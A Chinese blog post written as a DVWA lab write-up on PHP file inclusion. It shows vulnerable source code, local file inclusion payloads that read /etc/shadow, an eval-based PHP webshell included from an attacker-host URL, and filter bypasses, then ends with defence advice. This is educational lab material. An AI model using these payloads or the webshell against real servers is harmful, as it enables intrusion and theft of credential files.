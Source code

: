```yaml
---
layout:     post
title:      DVWA靶机学习——File Inclusion(文件包含)
subtitle:   这个系列是学习DVWA靶机的。今天学习File Inclusion的Low、Medium、High、Impossible级别。
date:       2020-07-14
author:     HouKC
header-img: img/post-bg-coffee.jpeg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```



## 0x00 File Inclusion(文件包含)
File Inclusion，即文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

文件包含漏洞通常配合文件上传来获取webshell。


## 0x01 Low
#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
代码就是读取链接中的一个参数page，作为文件包含进来。

http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=file1.php

获取page中的参数，作为php文件执行。

#### 解题思路
- 本地文件包含
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=/etc/shadow
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=C:\test.txt
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=..\..\php.ini

- 远程文件包含
当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致远程代码执行。

代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=http://恶意ip/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。

需要修改php.ini系统配置allow_url_include=On。
可以在kali虚拟机中开启Apache2服务
```
service apache2 start
cd /var/www/html/
vim shell.php

写入
<?php
echo "welcome test"
?>
保存退出即可。
```
然后访问链接示例：http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=http://192.168.29.135/shell.php 。


## 0x02 Medium
#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```
比Low级别多了http:// 和https:// 的过滤以及../ 和.."过滤(严重怀疑源码编写有误，应该是"..\\"，这样才能过滤..\)。但还是可以双写绕过。

使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。

例如：
page =hthttp://tp://ip/phpinfo.txt 时，str_replace函数会将http:// 删除，于是page=http://ip/phpinfo.txt ，成功执行远程命令。
http://ip/dvwa/vulnerabilities/fi/page=...\.\...\.\php.ini 使用...\.\，也就是双写的..\，这样就可以绕过..\过滤了。

#### 解题思路
利用双写绕过和远程文件包含漏洞。

当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致远程代码执行。

代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=hthttp://tp://恶意ip/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。

需要修改php.ini系统配置allow_url_include=On。
可以在kali虚拟机中开启Apache2服务
```
service apache2 start
cd /var/www/html/
vim shell.php

写入
<?php
echo "welcome test"
?>
保存退出即可。
```
然后访问链接示例：http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=hthttp://tp://192.168.29.135/shell.php 。


## 0x03 High
#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
检查文件名为file开头的文件并且文件名不能为include.php。使用fnmatch()确保$file是以file开头。

那么可以利用file伪协议绕过，如：file://C:\\test.txt。php包含进来时会把file://C:\\test.txt当成文件名读进来从而绕过fnmatch，然后在执行包含时会根据file伪协议把file伪协议路径下的文件包含进来。

当然前提是得知道要包含文件的绝对路径，无论什么后缀的文件被包含进来后都会当做php执行。

#### 解题思路
利用文件上传漏洞上传Webshell，然后用伪协议来包含。

Webshell代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=file://绝对路径/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。



## 0x04 Impossible
#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
这是基于白名单的防御，只包含白名单中的文件，一般是无法突破了的。

#### 解题思路
无。


## 0x05 小结
防御方法：
- 如果没有必要就关闭allow_url_fopen与allow_url_include。
- 白名单规定文件名。
- 如果不能白名单那就要设置黑名单过滤（尽可能全）http:// 、..\、../等符号。
- 如果文件包含与文件上传相结合时，还要考虑上传图片文件可能包含代码，应进行文件内容检查，全面防御。